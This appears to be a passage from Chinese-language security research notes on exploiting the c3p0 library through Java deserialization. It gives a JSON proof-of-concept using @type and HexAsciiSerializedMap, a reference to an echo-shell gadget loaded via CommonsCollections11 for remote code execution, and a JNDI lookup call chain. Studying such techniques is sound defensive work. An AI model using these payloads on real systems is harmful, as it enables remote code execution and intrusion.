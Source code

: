 一个读取字节再调用 readObject, 二次触发反序列化

POC

```java
{
    "@type": "com.mchange.v2.c3p0.WrapperConnectionPoolDataSource", 
    "userOverridesAsString": "HexAsciiSerializedMap:xxx;"
}
```

#### 内网RCE

参考回显马: https://gist.github.com/fnmsd/4d9ed529ceb6c2a464f75c379dadd3a8

然后通过CC链中的字节加载器调用, 这里采用CommonCollections11

![c3p0innerRCE](img/c3p0innerRCE.gif)

### JNDI

利用链: c3p0#JndiRefForwardingDataSource

```
JndiRefDataSourceBase#setJndiName
	JndiRefForwardingDataSource#setLoginTimeout
		JndiRefForwardingDataSource#inner
			JndiRefForwardingDataSource#dereference
				# 此处 try 代码块中调用 lookup 方法
```

POC
